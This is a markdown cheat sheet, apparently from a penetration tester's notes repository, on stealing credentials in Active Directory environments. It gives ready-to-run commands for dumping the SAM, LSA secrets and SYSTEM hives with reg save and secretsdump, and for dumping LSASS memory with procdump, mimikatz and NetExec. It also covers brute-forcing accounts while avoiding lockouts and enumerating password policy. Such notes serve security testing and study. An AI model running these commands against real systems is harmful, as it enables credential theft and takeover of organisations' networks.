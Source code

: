# Active Directory

### Table of content

- [NTDS.dit](#ntds)
- [Password management](#password-management)
    - [Dump with NetExec](#dump-with-netexec)
    - [SAM](#sam)
    - [LSA](#lsa)
    - [LSASS](#lsass)
- [BrutForce Authentification](#brutforce-authentification)
    - [Extract password Policies](#extract-password-policies)

## NTDS

NTDS.dit file is a crucial database file that stores all Active Directory data.

- User account and password
- Group memberships
- Policies and configs
- Shema informations

Default path : `%SystemRoot%\ntds\NTDS.DIT`

## Password management

### Dump with NetExec

`nxc smb <ip> -u "Administrator" -p 'mdp' --sam --lsa`

### SAM

SAM (Security Accounts Manager) is a database file that stores local user account information, including their hashed passwords, on individual Windows computers.

SAM is partially is partially crypted, and need another file to be decrypted (system)

**Manually dump SAM**

- SAM is a file, that can't be read because it is permantly open, we need to read it with register
- `reg save HKLM\SAM sam`
- `reg save HKLM\SYSTEM system`
- `secretsdump -system system -sam sam local`

### LSA

Local Security Authority (LSA) is a subsystem that is responsible for enforcing the security policy on the system.

- LSA is a part of the security register, it store :
    - MSCACHE 
        - mscache is Microsoft hashing algorithm 
        - info retrieving: `user:mscache`
        - last x interactive connection with domain credentials are cached to enable users to log on even if the DC is down
    - planned task
    - services credentials

**Manually dump LSA**

- `reg save HKLM\SECURITY security`
- `reg save HKLM\SYSTEM system`
- `secretsdump -system system -security security local`

### LSASS

After a user logs on, the system generates and stores a variety of credential materials in LSASS process memory.

These credential materials can be harvested by an administrative user or SYSTEM.

List of creds registers

- ntlmSSP
- kerberos
- digest ssl
- credssp
- livessp
- schannel

LSASS is a process, we need to dump memory.

- **Local**
- [procdump.exe](https://learn.microsoft.com/fr-fr/sysinternals/downloads/procdump)
    - download procdump.exe on the machine
    - `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
- `mimikatz.exe`
- **Remote**
- `nxc smb <ip> -u "user" -p "password" -M nanodump`

## BrutForce authentification

There is some rules to respect before brut force account on AD:

- Do not brut force AD account before reading the password policy
- Do not brut force AD Admin account because they can have a different password policy
- If account are lock after 5 unsucessfull tries, do not test more than 3. (if a user misses their password it could instant lock their account)
- Local account can't be lock, you can brut force them.
- dont forget to test:
    - user:user 
    - user:(empty)
    - wordlist

**Tools**
- `medusa` / `hydra` (dict attack)
- `hashcat`
- `john` (johntheripper)

### Extract password Policies

Require a domain user

```sh
nxc smb ip -U "" -P "" --pass-pol | grep 'domain passowrd complex'
```
